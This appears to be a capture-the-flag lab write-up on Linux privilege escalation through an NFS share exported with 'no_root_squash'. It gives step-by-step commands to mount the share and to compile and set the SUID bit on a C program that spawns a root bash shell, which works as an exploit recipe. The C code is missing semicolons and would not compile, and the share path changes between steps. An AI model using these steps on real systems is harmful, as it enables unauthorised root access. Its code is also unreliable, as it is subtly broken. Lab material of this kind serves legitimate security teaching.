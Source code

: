 # NFS

Privilege escalation vectors are not confined to internal access. Shared folders and remote management interfaces such as SSH and Telnet can also help you gain root access on the target system. Some cases will also require using both vectors, e.g. finding a root SSH private key on the target system and connecting via SSH with root privileges instead of trying to increase your current user’s privilege level.

Another vector that is more relevant to CTFs and exams is a misconfigured network shell. This vector can sometimes be seen during penetration testing engagements when a network backup system is present.



### How many mountable shares can you identify on the target system?

```bash
cat /etc/exports
```

<figure><img src="../../.gitbook/assets/image (77).png" alt=""><figcaption></figcaption></figure>

We can identify 3 shares

### How many shares have the "no\_root\_squash" option enabled?

<figure><img src="../../.gitbook/assets/image (76).png" alt=""><figcaption></figcaption></figure>

There are in total 3 shares with the "no\_root\_squash" option enabled

### What is the content of the flag7.txt file? 

To retrieve the content of the flag7.txt, we will explore the enabled option on **/home/ubuntu/sharedfolder**.

**Step 1: Enumerate mountable shares on the attack machine**

```bash
showmount -e <target IP>
```

<figure><img src="../../.gitbook/assets/image (80).png" alt=""><figcaption></figcaption></figure>

**Step 2: Mount the /home/ubuntu/sharedfolder share on the attack machine**

```bash
mkdir /tmp/bckatkmch
mount -o rw <target IP>:/home/ubuntu/sharedfolder /tmp/bckatkmch
```

<figure><img src="../../.gitbook/assets/image (84).png" alt=""><figcaption></figcaption></figure>

**Step 3: Create an executable to set the SUID bits**

Move to the **/tmp/bckatkmch** directory and create the a C executable. We will name it nfs.c.

```c
int main()
{ setgid(0)
  setuid(0)
  system("/bin/bash");
  return 0;
}
```

We then compile it and set the SUID bit.

```bash
gcc nfs.c -o nfs -w
chmod +s nfs
ls -l nfs
```

<figure><img src="../../.gitbook/assets/image (85).png" alt=""><figcaption></figcaption></figure>

**Step 4: Execute the nfs script**

Now on the target machine move the **/home/ubuntu/sharedfile** directory and execute the `nfs` program.

```bash
id
whoami
ls -l
./nfs	
id
whoami
```

<figure><img src="../../.gitbook/assets/image (86).png" alt=""><figcaption></figcaption></figure>

**Step 5: Retrieve the flag**

The flag7.txt is under **/home/matt**, if the previous steps were completed successfully we should be able to see the content of the flag.

<figure><img src="../../.gitbook/assets/image (87).png" alt=""><figcaption></figcaption></figure>
